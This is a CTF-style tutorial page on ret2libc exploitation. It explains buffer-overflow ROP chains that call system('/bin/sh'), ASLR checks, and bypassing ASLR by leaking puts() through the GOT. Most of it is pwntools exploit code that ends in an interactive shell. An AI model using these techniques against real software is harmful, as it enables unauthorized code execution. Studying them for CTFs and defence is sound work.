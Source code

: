 ```yaml
---
description: Using a buffer overflow to call the libc system("/bin/sh") function
---
```


# ret2libc

## Theory

The idea of ret2libc is returning to a function defined in the libc library. A common one is the `system()` function allowing you to execute shell commands and with the `"/bin/sh"` argument an interactive system shell. Just like calling a function with arguments as in [ret2win.md](ret2win.md "mention"), we jump to this `system()` function with a string argument found in the same libc binary.&#x20;

This technique is really useful when there is no `win()` function to jump to, as this `system()` function is essentially the same as a win function, but not specific to any binary.&#x20;

## Exploit

To call a function with a string argument, we need two things. The address of the function, and the address to the string that will be the argument.&#x20;

If ASLR is disabled, this first part is simple. We just need the address of the `system()` function which can be found if we have a copy of the libc binary the remote server uses. It may be given in the challenge, or it may not. If it is not given, you can try to find it by leaking addresses as explained later in [#bypassing-aslr](ret2libc.md#bypassing-aslr "mention") and looking them up in the [libc database](https://libc.blukat.me/) to find any matches.&#x20;

Then we need the string, which can be easily found using PwnTools. Every libc version has a "/bin/sh" string inside by default, which we can abuse. The code will look something like this:

```renpy
libc = ELF("./libc.so.6")

rop = ROP(libc)
#rop.call(rop.ret)  # Might be needed to align the stack (try with/without)
rop.system(next(libc.search(b"/bin/sh")))  # Find the "/bin/sh" string and call system()
rop.exit()  # Clean exit after stopping the shell

payload = flat({
    OFFSET: rop.chain()
})
```

After sending the payload, you can get a nice interactive shell with the `p.interactive()` function:

```renpy
p.sendline(payload)  # Trigger shell

p.interactive()  # Make shell interactive in terminal
```

## Is ASLR enabled?

Most often Address Space Layout Randomization (ASLR) is enabled on the remote machine (and likely yours too). You can check if it is by reading the `/proc/sys/kernel/randomize_va_space` file:

* `0`: Disables ASLR. In this mode, the kernel does not randomize the location of the stack, shared libraries, or executable code.
* `1`: Enables ASLR for user-space applications only. The kernel randomizes the location of the **stack**, shared **libraries**, and **executable code** for user-space applications.
* `2`: Enables ASLR for all processes, including the kernel itself. In addition to randomizing the location of user-space applications, the kernel also randomizes the location of the kernel stack, heap, and other kernel components.

Only `root` should be able to write to this file and change the setting. When enabled, it makes many loaded addresses randomized on each run of the binary, making it impossible to guess beforehand what they will be.

If you don't have access to the machine to read this file, another way to check is just to test if you can jump somewhere you know. For example, **simply jumping to the start of `main()`** to see if the program restarts on the remote instance. If it successfully repeats the main function, ASLR is likely off which will make any exploit much simpler. If it crashes, or just closes the connection, it likely jumped to an invalid address and segfaulted.&#x20;

## Bypassing ASLR

Simply jumping to the `system()` function won't work here, because we need to know what randomized address to jump to. But to make it work again, we simply need to leak any libc address, because all the addresses will still be the same **relative** to each other. Leaking such an address can be done in a few different ways, but one common method is using the Procedure Linkage Table (PLT) and the Global Offset Table (GOT).&#x20;

We want to somehow leak the address of any libc function, which can be done by **printing** the value. If the original binary uses any `puts()`, `printf()` or similar functions, those functions will be saved in the PLT. The address to this table is not randomized by ASLR, so we can use it to print the value at any address we want. The GOT just happens to store the randomized addresses to used libc functions, which can be printed using this method. The code looks something like this:

```renpy
elf = ELF("./binary")

rop = ROP(elf)
rop.puts(elf.got["puts"])
```

This would print some binary data being the leaked address to the libc `puts()` function, but then it likely crashes the program because we corrupted the flow. But since we control the return addresses, we can simply restart the program after we leaked the address, now with the knowledge of this leaked address!

<pre class="language-renpy"><code class="lang-renpy">rop = ROP(elf)
rop.puts(elf.got["puts"])
<strong>rop.main()
</strong>
payload = flat({
    OFFSET: rop.chain()
})
</code></pre>

After sending this payload, the first bytes you will receive are the address we are looking for. After that, the program restarts and we can do the buffer overflow again but now having bypassed ASLR by leaking a libc address. We can extract the address from the printed binary data like so:

```renpy
p.sendline(payload)

# Note: Try some different things here locally for your program to find a consistent 
#       way to extract the address. Here the first 6 bytes are taken
r = p.recv(6)
leak = u64(r.ljust(8, b"\x00"))  # Unpack data
success("Leaked puts(): %#x", leak)
```

Finally, now that we have leaked the address we can calculate the relative offset with where the `puts()` function would normally be in libc:

```renpy
libc = ELF("./libc.so.6")

libc.address = leak - libc.symbols["puts"]
```

The above line of code will set the base address of libc making any future calls like `rop.system()` work automatically.&#x20;

As the program restarts, now it becomes the same as in [#exploit](ret2libc.md#exploit "mention"). We just need to call the `system()` function with the `"/bin/sh"` string:

```renpy
rop = ROP(libc)
#rop.call(rop.ret)  # Might be needed to align the stack (try with/without)
rop.system(next(libc.search(b"/bin/sh")))  # Find the "/bin/sh" string and call system()
rop.exit()  # Clean exit after stopping the shell

payload = flat({
    OFFSET: rop.chain()
})
p.sendline(payload)
p.interactive()
```

Putting it all together results in an example script like the following:

{% file src="../.gitbook/assets/ret2libc.py" %}
An example script of ret2libc bypassing ASLR by leaking puts()
{% endfile %}
